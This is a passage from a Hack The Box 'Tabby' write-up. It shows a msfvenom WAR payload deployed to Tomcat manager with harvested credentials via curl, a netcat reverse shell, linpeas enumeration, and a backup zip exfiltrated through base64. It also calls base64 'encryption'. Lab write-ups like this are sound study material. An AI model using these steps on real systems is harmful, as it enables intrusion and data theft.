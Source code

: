 but it seems the authorization failed. I fiddle around a bit and eventually get it:


```
root@kali:/home/kali/htb/Tabby# curl -u 'tomcat':'$3cureP4s5w0rd123!' --upload-file god_of.war 'http://megahosting.htb:8080/manager/text/deploy?path=/test/godofwar'
curl: (28) Failed to connect to megahosting.htb port 8080: Connection timed out
```

but then it timed out...

I then took a look at my msfvenom command. And it turns out I had filetype raw, not war. I can't even script kiddie right...

```
root@kali:/home/kali/htb/Tabby# curl -u 'tomcat':'$3cureP4s5w0rd123!' --upload-file god_of.war 'http://megahosting.htb:8080/manager/text/deploy?path=/skiddie/gow'
OK - Deployed application at context path [/skiddie/gow]
root@kali:/home/kali/htb/Tabby# 
```

And then on the listener:

```
root@kali:/home/kali/htb/Tabby# nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.117.161 50964
whoami
tomcat
script /dev/null -c bash
Script started, file is /dev/null
tomcat@tabby:/var/lib/tomcat9$ ^Z
[1]+  Stopped                 nc -nlvp 1337
root@kali:/home/kali/htb/Tabby# stty raw -echo
nc -nlvp 1337me/kali/htb/Tabby# fg
             reset
reset: unknown terminal type unknown
Terminal type? xterm
tomcat@tabby:/var/lib/tomcat9$ export TERM=xterm
tomcat@tabby:/var/lib/tomcat9$ export SHELL=bash
tomcat@tabby:/var/lib/tomcat9$ id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
tomcat@tabby:/var/lib/tomcat9$ 
```

I upload linpeas to enumerate the machine.

it finds some backup files:

```
[+] Backup files?
-rw-r--r-- 1 ash ash 8716 Jun 16  2020 /var/www/html/files/16162020_backup.zip  
```

Even though the system has unzip, I cannot unzip as it needs a password. And I could not transfer it via curl.

I encrypted it with base64 -w0, copied the result and decrypted it on my local machine.
